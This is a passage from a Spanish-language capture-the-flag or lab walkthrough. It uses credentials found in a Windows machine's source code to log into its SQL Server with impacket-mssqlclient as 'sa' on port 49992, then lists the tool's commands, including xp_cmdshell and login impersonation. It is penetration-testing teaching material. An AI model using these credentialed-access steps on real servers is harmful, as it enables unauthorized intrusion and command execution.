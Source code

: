 Vemos que nos esta proporcionando unas credenciales, que son las siguientes:

```
User: sa
Pass: Contpaqi2023.
```

Estas credenciales podemos deducir que son del `SQL Server` que tiene la maquina `Windows`, por lo que haremos lo siguiente para conectarnos a dicho servidor.

## SQL Server

Si nos conectamos de forma normal no nos va a dejar ya que esta en otro puerto, por lo que tendremos que especificar el puerto que en este caso estara en el `49992`.

```shell
impacket-mssqlclient sa:"Contpaqi2023."@<IP_VICTIM> -p 49992
```

Info:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DESKTOP-M464J3M\COMPAC): Line 1: Changed database context to 'master'.
[*] INFO(DESKTOP-M464J3M\COMPAC): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL (sa  dbo@master)>
```

Con esto veremos que estamos dentro de forma exitosa, ahora vamos a ver que comandos tenemos permitidos:

```powershell
help
```

Info:

```
lcd {path}                 - changes the current local directory to {path}
    exit                       - terminates the server process (and this session)
    enable_xp_cmdshell         - you know what it means
    disable_xp_cmdshell        - you know what it means
    enum_db                    - enum databases
    enum_links                 - enum linked servers
    enum_impersonate           - check logins that can be impersonated
    enum_logins                - enum login users
    enum_users                 - enum current db users
    enum_owner                 - enum db owner
    exec_as_user {user}        - impersonate with execute as user
    exec_as_login {login}      - impersonate with execute as login
    xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
    xp_dirtree {path}          - executes xp_dirtree on the path
    sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
    use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
    ! {cmd}                    - executes a local shell cmd
    show_query                 - show query
    mask_query                 - mask query
```

